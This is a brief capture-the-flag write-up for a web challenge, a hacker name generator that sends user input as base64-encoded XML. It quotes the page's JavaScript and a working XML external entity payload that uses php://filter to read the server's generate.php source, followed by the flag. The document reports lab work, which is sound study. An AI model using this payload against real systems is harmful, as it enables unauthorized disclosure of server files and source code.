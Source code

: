 
# eXtremely Messed up Lad

## The challenge

I've created a hacker name generator. I wonder what you'll find ...


## Writeup

We are facing a page with 2 input.
and the JS code :
```javascript
 const fn = $("#inputFirstName").val();
const ln = $("#inputLastName").val();
let tpl = `<?xml version='1.0' encoding='UTF-8'?><input><firstName>${fn}</firstName><lastName>${ln}</lastName></input>`;
window.location.href = `generate.php?input=${encodeURIComponent(btoa(tpl))}`;
```

It look like Xml parsing injection.
I made a small google (or Qwant) search and found a way to execute code/ include file in xml parsing, so i retrieved the generate.php.

window.location.href = "generate.php?input="+encodeURIComponent(btoa('<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=generate.php" >]><input><firstName>&xxe;</firstName></input>'))

In the source code we can find : 
axactf{th4t_w45_50m3_4w350m3_j0b_th4t_y0u_d1d_th3r3}

